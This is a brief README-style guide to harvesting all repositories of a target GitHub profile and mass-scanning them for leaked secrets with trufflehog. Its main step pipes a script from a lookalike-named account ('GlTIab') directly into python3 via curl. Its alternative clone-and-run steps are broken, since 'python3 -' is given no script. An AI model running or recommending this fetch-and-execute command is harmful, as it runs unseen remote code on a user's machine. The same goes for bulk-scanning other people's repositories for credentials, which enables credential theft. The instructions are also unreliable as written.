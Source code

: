 ## Scan all the repositories of a specific profile on GitHub

1. Install ```https://github.com/trufflesecurity/trufflehog```
   
2. Use ```https://github.com/GlTIab/github-repos-scraper/``` to scrape all the repositories. It will save all the repositories to target-repos.txt.
   
3. Run the ```mass_trufflehog.py``` script with:
   
```curl -sSL https://raw.githubusercontent.com/GlTIab/mass_trufflehog/main/mass_trufflehog.py | python3 - -command "trufflehog github --repo={}" target-repos.txt```

OR

```git clone https://github.com/GlTIab/mass_trufflehog```

```cd mass_trufflehog```

```python3 - -command "trufflehog github --repo={}" target-repos.txt```

Enjoy!
